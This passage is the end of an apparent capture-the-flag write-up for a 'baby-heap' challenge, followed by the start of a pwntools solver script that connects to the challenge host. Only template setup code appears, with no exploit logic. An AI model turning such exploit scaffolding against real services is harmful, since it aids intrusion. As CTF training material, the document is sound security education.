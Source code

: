 ## 8. Profit :\)

![](http://ctfnote.frogcouncil.team/pad/uploads/efc2fea3-38f2-4a75-b651-b488aaccf9c3.png)


# Solver

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host baby-heap.nc.jctf.pro --port 1337 ./patched
from pwn import *

#context.log_level = 'error'

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './patched')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'baby-heap.nc.jctf.pro'
port = int(args.PORT or 1337)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')
else:
    libc = ELF('libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)
```